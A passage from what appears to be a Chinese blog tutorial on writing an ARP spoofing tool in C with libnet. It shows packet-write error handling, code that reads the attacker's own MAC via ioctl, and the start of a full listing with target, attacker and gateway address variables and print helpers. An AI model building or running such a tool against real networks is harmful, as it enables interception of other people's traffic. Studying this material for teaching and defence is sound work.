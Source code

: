 ```c
        if (res == -1) {
            printf("IP libnet write error\n");
            libnet_destroy(net_t);
            return 1;
        }
    }
    
    /* success */
    libnet_destroy(net_t);
    return 0;
}
```

## 优化获取

五个地址，总不能完全让用户输入吧，因此，怎么简化用户体验也是我们应该注意的事情。

网关IP和用户IP是会随着网关变化的，我们把简单的IP两个地址让用户输入，MAC地址用程序获取。

首先是获得自己的MAC，用Socket里的icotl函数即可：

```c
    /* get attacker's mac */
    int sockfd;
    static struct ifreq req;
    sockfd = socket(PF_INET, SOCK_DGRAM, 0);
    strcpy(req.ifr_name, dev);
    ioctl(sockfd, SIOCGIFHWADDR, &req);
    print_mac((u_char *)req.ifr_hwaddr.sa_data);
    memcpy(ATTACKER_MAC, (u_char *)req.ifr_hwaddr.sa_data, 6);
    printf("\n");
```

目标的MAC可以用ping来实现，而网关直接抓包就好。

完整的代码如下：

```c
#include "head.h"

u_char TARGET_MAC[6];
u_char ATTACKER_MAC[6];
u_char GATEWAY_MAC[6];
u_char TARGET_IP[4];
u_char GATEWAY_IP[4];

/* print mac address */
void print_mac(u_char *mac) {
    int i;
    for (i = 0; i < 6; i++) {
        if (mac[i] < 16) printf("0");
        printf("%x", mac[i]);
        if (i < 5) printf(":");
    }
    printf("\n");
}

/* print ip address */
void print_ip(u_char *ip) {
    int i;
    for (i = 0; i < 4; i++) {
        printf("%d", ip[i]);
        if (i < 3) printf(".");
    }
    printf("\n");
}
```